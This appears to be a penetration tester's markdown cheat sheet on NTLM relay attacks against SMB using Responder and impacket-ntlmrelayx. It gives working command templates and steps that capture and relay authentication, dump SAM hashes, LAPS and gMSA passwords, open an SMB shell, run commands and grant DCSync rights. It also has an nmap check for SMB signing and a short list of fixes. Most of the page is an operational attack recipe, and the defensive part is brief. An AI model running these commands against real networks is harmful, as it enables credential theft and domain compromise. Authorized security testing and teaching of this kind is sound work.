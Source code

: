 # smb relay ntlmrelayx

**REQUIREMENTS:**

* SMB signing must be disabled.
* Relayed user creds must be admin on machine

## Information

Invoke this attack: request callback to SMB on kali using `\\IP`

1. `responder` will capture the request, pass it to `ntlmrelayx`
2. ntlmrelayx will relay the request to TARGET.txt
    1. Enables RemoteRegistry
        1. Captures system bootkey
        2. Performs intended action; Default action: SAM dump using `secretsdump.py`
        3. Retores RemoteRegistry back to disabled state.

```bash
impacket-ntlmrelayx [-6] [-t TARGET | -tf TARGET_FILE] -smb2support [-l LOOT_DIR] [-i] [-e "SHELL.exe"] [-c "COMMANDS"]
--escalate-user USER: will escalate to add ACL Replication-Get-Changes-All for USER on DC 
# -6: IPv6
# -i: will open a smb shell, can connect using nc IP PORT
# --dump-laps: dump LAPS passwords
# --dump-gmsa: dump gMSA passwords
```

## SMB-check

```bash
nmap --script=smb2-security-mode.nse -p 445 IP/CIDR
```

## Method:

1. set `SMB=Off` and `HTTP=Off` in `/etc/responder/Responder.conf`
2. Run `sudo responder -I INTF -rdwv`
3. Run `ntlmrelayx.py -tf TARGET.txt -smb2support [FLAGS]`

## Fix

* Enable SMB signing on all devices (can cause performance issues).
* Disable NTLM Auth on network
* Account tiering (restricting domain admins to specific tasks)